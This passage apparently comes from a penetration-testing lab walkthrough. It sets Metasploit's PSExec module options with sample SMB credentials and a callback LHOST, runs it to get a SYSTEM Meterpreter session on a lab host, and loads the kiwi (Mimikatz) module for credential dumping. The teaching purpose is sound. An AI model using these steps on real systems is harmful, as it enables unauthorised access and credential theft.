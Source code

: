 	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the results of the command.](Images/psexecoptions.PNG)
	
3. Run the module with `run`.

	 ![A screenshot depicts the results of the command.](Images/runpsexec.PNG)
	
Even though we set the credentials to `tstark`, the PSExec module in Metasploit will always open a session as SYSTEM due to how it executes the payload via service creation.

4. In your Meterpreter session, enable the Mimikatz modules by typing `load kiwi`, as the image shows:

	  ![A screenshot depicts the results of the command.](Images/loadkiwi.PNG)
